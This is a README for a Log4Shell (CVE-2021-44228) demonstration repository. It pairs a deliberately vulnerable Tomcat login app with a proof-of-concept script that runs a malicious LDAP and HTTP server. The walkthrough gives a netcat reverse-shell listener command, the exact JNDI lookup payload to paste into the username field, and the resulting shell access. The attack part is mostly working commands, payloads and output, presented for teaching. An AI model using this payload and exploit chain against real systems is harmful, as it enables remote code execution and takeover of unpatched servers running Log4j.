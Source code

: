 # log4shell-example

This pieces together a few things across github/internet and makes understanding why the log4shell is so dangerous:

1) An example tomcat java application that uses log4j and has a login screen to illustrate how easy it is to input exploitable ldap references
2) An LDAP server that will serve the exploit class byte code
   1) The LDAP server is redirected to a basic web server that serves the exploit byte code.  This is written in python that makes system calls out to java to build the exploit java class and produce the java class bytecode.  
   2) It also calls out to java sto start an [LDAP marshaler (serializer)](https://github.com/mbechler/marshalsec)
3) An example of how to create a reverse shell with [netcat (nc)](https://en.wikipedia.org/wiki/Netcat)
4) This includes an exploitable version of java, u171, that has the default of `com.sun.jndi.ldap.object.trustURLCodebase=true`, where java 8 u191 forward has `com.sun.jndi.ldap.object.trustURLCodebase=false`
5) Then we will illustrate how to use some forensics to scrape memory for sensitive information using `yara`


I'm using python `3.8.9` for this, but it shouldn't really matter.

An important thing to note here is that while this demo is running locally, the LDAP server supplying the exploit can be hosted anywhere.



* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Once it is running, you can access it on [localhost:8080]()


Now copy the `${jndi:ldap://localhost:1389/a}` and put it into the username field of the tomcat server at port `8080`

You will not be prompted in knowing that the tomcat application has in-fact connected to your netcat running at `9001`  Try typing simple commands like `ls` and see what you get.





